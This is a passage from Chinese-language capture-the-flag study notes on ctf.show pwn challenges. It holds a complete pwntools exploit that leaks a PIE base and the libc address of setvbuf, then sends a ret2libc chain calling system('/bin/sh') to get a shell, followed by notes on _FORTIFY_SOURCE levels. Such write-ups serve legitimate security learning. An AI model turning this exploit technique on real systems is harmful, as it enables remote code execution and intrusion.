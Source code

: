 
但是这道题按照正常的payload数据填充会报错：

<pre>[<span style="color:#EC0101"><b>DEBUG</b></span>] Received 0x2b bytes:
    b&apos;timeout: the monitored command dumped core\n&apos;
</pre>

猜测可能和堆栈平衡有关？留着等后续学习解决吧。这里需要把第一个payload的ebx填充上才不会报错。

``` python
from pwn import *
from LibcSearcher import *

context.log_level = 'debug'
sh = remote("pwn.challenge.ctf.show", 28135)

elf = ELF('./pwn')

main_real = int(sh.recvline(),16)
#main_real = u32(sh.recv(4))
elf_base = main_real - elf.symbols['main']
ctfshow_addr = elf_base + elf.symbols['ctfshow']
write_plt = elf_base + elf.plt['write']
setvbuf_got = elf_base + elf.got['setvbuf']

ebx = elf_base + 0x1fc0

payload1 = flat(['a'*(0x88-4), ebx, 'a'*4,write_plt, ctfshow_addr, 1, setvbuf_got, 4])
sh.sendline(payload1)

setvbuf_addr = u32(sh.recv(4))
libc = LibcSearcher('setvbuf', setvbuf_addr)
libcbase = setvbuf_addr - libc.dump('setvbuf')
system_addr = libcbase + libc.dump('system')
binsh_addr = libcbase + libc.dump('str_bin_sh')

payload2 = flat(['A' * (0x88+4), system_addr, ctfshow_addr, binsh_addr])
sh.sendline(payload2)

sh.interactive()
```

# pwn32~
## Fortify

fority其实非常轻微的检查，用于检查是否存在缓冲区溢出的错误。适用情形是程序采用大量的字符串或者内存操作函数，如memcpy，memset，stpcpy，strcpy，strncpy，strcat，strncat，sprintf，snprintf，vsprintf，vsnprintf，gets以及宽字符的变体。

- `_FORTIFY_SOURCE`设为1，并且将编译器设置为优化1(gcc -O1)，以及出现上述情形，那么程序编译时就会进行检查但又不会改变程序功能
- `_FORTIFY_SOURCE`设为2，有些检查功能会加入，但是这可能导致程序崩溃。

`gcc -D_FORTIFY_SOURCE=1`仅仅只会在编译时进行检查 (特别像某些头文件 #include <string.h>)  
`gcc -D_FORTIFY_SOURCE=2` 程序执行时也会有检查 (如果检查到缓冲区溢出，就终止程序)
